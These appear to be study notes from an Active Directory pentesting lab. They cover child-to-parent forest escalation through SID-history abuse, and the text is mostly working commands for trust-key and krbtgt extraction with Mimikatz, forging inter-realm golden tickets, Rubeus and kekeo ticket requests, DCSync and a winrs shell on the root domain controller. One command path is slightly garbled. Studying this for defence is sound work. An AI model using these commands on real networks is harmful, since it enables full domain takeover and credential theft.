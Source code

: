 Now, we have compromised most machines in one domain example dollarcorp.moneycorp.local and also got domain admin access in dollarcorp.moneycorp.local domain. We need to move laterally to other domains like rupeescorp.moneycorp.local or child domain of dollarcorp.moneycorp.local which might be us.dollarcorp.moneycorp.local in order to do this we perform these attacks. So, if any one single domain is compromised in a forest the entire forest is compromised because domains in forest have bidirectional trust with each other.

- every computer and user object in dollarcorp.moneycorp.local can access every user and computer object in rupeescorp.moneycorp.local and vice versa due to bidirectional trust. till now we compromised every machine in dollarcorp.moneycorp.local domain now time to move to another domain.

# Child TO Parent(from dollarcorp.moneycorp.local to moneycorp.local)
sIDHistoryis a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory. 
sIDHistorycan be abused in two ways of escalating privileges within a forest:
- krbtgthash of the child
- Trust key

## Kerberos working across child and parent domains.
Since there is bi directional trust across domains in a forest and suppose a client wants to access a service residing in another domain how does kerberos work?

- Client requests TGT from the DC of their own domain(dollarcorp.moneycorp.local)
- Client receives TGT from the dollarcorp.moneycorp.local DC
- Client requests ST for service residing in moneycorp.local domain(parent domain)
- DC checks the SPN which service the client is asking ST for and sees the service to be in another domain which is parent domain(moneycorp.local)
- DC provides inter forest TGT to client(This inter realm TGT is encrypted using a trust key for parent and child domain, this trust key is present in DC of both domains.)
- Client sends inter forest TGT to DC of another domain parent domain(moneycorp.local) and asks for ST
- moneycorp.local's DC  decrypts the inter realm TGT using the trust key and is successful sends ST to the client
- Client presents the ST to service in moneycorp.local
- The service provides access.

## Abusing this functionality using trust keys
IF we have domain admin access in one domain we can extract the trust key and forge inter realm TGT. While forging the inter realm TGT we write in the TGT that the sid history is for enterprise administrator and encrypt the TGT using trust key after the client presents the forged TGT to the DC of forest root/parent domain/ moneycorp.local domain it decrypts the TGT using its own copy of the trust key and sees the sid history for enterprise administrator and provides access to that service as enterprise administrator.

## Extracting trust keys
Look for trust keys [In] child.domain -> prent.domain and extract rc4
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```  
OR

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
- After this we can forget the inter realm TGT
```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```
- The first sid parameter is the sid of current domain
- the second sids parameter is the sid of enterprise administrators group of the parent domain 519 is default
- rc4 is the rc4 of the trust key
- target is parent domain
- ticket is the path to where the ticket should be saved.

## ACcess using keko
```
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```
```
.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
```
```
ls \\mcorp-dc.moneycorp.local\c$
```
Tickets for other services (like HOST and RPCSS for WMI, HTTP for PowerShell Remoting and WinRM) can be created as well.

## Using rubeus
```
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt
```
```
ls \\mcorp-dc.moneycorp.local\c$
```

## Abusing this functionality using krbtgt
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit" 
```
- In the above command, the mimkatzoption "/sids" is forcefully setting the sIDHistoryfor the Enterprise Admin group for dollarcorp.moneycorp.localthat is the Forest Enterprise Admin Group.
```
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"' 
```
```
ls \\mcorp-dc.moneycorp.local.kirbi\c$
```

- We can also access the shell or command line by running dcsync and getting aes hash of administrator of forest root
```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\administrator /domain:moneycorp.local" "exit"
```
```
Rubeus.exe asktgt /user:moneycorp.local\administrator /domain:moneycorp.local /dc:mcorp-dc.moneycorp.local /aes256:a8596906b00af56 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
```
winrs -r:mcorp-dc cmd
```

